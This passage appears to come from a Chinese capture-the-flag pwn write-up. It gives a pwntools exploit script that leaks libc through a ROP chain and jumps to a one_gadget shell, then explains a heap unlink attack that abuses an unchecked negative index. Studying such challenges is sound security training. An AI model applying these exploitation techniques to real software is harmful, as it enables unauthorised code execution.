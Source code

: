 ```python
main_addr = 0x400c8c

add(-1, 1, 'a' * 0x88 + '\x00' * 0x8 + 'a' * 0x8 + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(main_addr))

p.recv()
puts_addr = u64(p.recv()[:6].ljust(8, '\x00'))
log.success('puts_addr:' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['puts']
one_gadget_addr = libc_base + libc_one_gadget_addr
log.success('libc_base:' + hex(libc_base))
log.success('one_gadget_addr:' + hex(one_gadget_addr))
p.sendline('1234')
add(-1, 1, 'a' * 0x88 + '\x00' * 0x8 + 'a' * 0x8 + p64(one_gadget_addr))

p.interactive()

```

### heap实现

这里主要像是堆块的管理，所以可以看看堆管理方面有什么缺陷

我们可以看到show功能是没有的

```c 
int show()
{
  return puts("No~No~No~");
}
```

这在很多堆题中都是难题，莫得泄漏堆块内容，从而无法得知我们想要的数据

我们可以发现，他在一开始申请了一个chunk来记录我们以后申请的chunk的输入size

![44.png](https://i.loli.net/2019/08/06/X7OkWpjClbm1GVR.png)

而且在delete功能中，idx没有验证下限，导致可以往低地址走

![45.png](https://i.loli.net/2019/08/06/iKdpHqjwv2lh93z.png)

所以我们其实是可以把一开始申请的size_chunk给free掉，再次creat的时候就可以取得这个chunk，从而可以控制其他chunk的输入size

而且在edit的时候，是读size_chunk中的size，综合一下就可以实现堆块溢出

![46.png](https://i.loli.net/2019/08/06/QpvfJWAczYlgSi4.png)

接着我们就可以利用堆溢出在一个chunk中伪造一个chunk，其fd与bk可以是在程序中的chunk_list的相应偏移位置(-0x18,-0x10)，接着在覆盖到下一个chunk的prev_size和size位使得前一个fake chunk处于free态，接着delete下一个chunk，引发unlink（注意这个chunk的next chunk的size合法性）

![48.png](https://i.loli.net/2019/08/06/KE6AfNLawVZu7HD.png)

程序中的chunk_list中的指针指向chunk_list（unlink的效果）
